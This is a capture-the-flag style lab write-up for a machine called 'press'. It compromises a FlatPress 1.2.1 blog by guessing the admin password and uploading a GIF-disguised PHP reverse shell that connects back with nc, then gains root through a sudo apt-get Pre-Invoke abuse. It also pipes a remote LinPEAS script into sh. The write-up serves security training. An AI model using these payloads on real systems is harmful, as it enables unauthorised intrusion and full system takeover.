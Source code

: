 # press (rough notes)


Initial port enumeration:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ nmap -v -Pn -p- -T4 press  
...

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8089/tcp open  unknown
```

Port enumeration with service fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ nmap -v -Pn -p 22,80,8089 -A press
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Lugx Gaming Shop HTML5 Template
8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: FlatPress
|_http-server-header: Apache/2.4.56 (Debian)
|_http-favicon: Unknown favicon MD5: 315957B26C1BD8805590E36985990754
|_http-generator: FlatPress fp-1.2.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at that webserver on port 8089 I see a service and a version I will look up on searchsploit right away:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ searchsploit flatpress
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Flatpress - Cross-Site Scripting                                   | php/webapps/10688.txt
Flatpress 0.1010.1 - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/35896.txt
Flatpress 0.804 - Multiple Cross-Site Scripting Vulnerabilities    | php/webapps/32421.html
Flatpress 0.804 < 0.812.1 - Local File Inclusion                   | php/webapps/9801.txt
Flatpress 0.909.1 - Persistent Cross-Site Scripting                | php/webapps/12034.txt
Flatpress 1.0 - Remote Code Execution                              | php/webapps/29515.pl
Flatpress 1.0.3 - Cross-Site Request Forgery / Arbitrary File Uplo | php/webapps/39870.html
Flatpress Add Blog 1.0.3 - Persistent Cross-Site Scripting         | php/webapps/48826.txt
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hmmm... nothing for a version as high as what we have...

I search google for "FlatPress 1.2 exploit" and the first hit takes me to a [GitHub issue](https://github.com/flatpressblog/flatpress/issues/152) opened against FlatPress.

The GitHub issue explains in detail how to exploit an arbitrary file upload vulnerability in FlatPress 1.2...

So we will follow the instructions there to try to reproduce it. But I realize I first need to figure out how to authenticate as an administrator...

![](./assets/admin-login.png)

Tried a handful of bad passwords manually and `admin:password` worked.

From there we follow the instructions in the GitHub issue to add the following line to the top of any PHP file we wish to execute.

```
GIF89a;
```

I choose a reverse shell:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ cat rshell.php                                           
GIF89a;
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

I simply upload `rshell.php`

![](./assets/file-upload.png)

I set up my local listener to catch the reverse shell:

```
┌──(kali㉿kali)-[~/offsec/press]
└─$ nc -lnvp 80                                                                                         
listening on [any] 80 ...
```

And I trigger the execution by opening the file in the media manager tab of the "administration area" in FlatPress:

![](./assets/media-manager.png)

and we catch the shell:

```
connect to [192.168.45.172] from (UNKNOWN) [192.168.151.29] 53998
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Our usual flag is nowhere to be found... maybe this box only has a rooting proof flag... we'll move on for now.


## Privilege Escalation

I get myself a better shell:

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@debian:/home$
```

And I run LinPEAS:

```
www-data@debian:/home$ which curl
which curl
/usr/bin/curl
www-data@debian:/home$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
```

LinPEAS raises that I can run apt-get as root without a password:

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/apt-get
```

That's it. We look up [apt-get in GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) and we find how to abuse the package manager to get a shell as root:

```
www-data@debian:/home$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
<apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# whoami
whoami
root
```

Its over for this machine. We find our flag in the root directory:

```
# cd /root
cd /root
# cat proof.txt
cat proof.txt
6d1be77639751d464d3746fc1c746756
```

We get full marks for the flag so indeed it is the only one. We are done!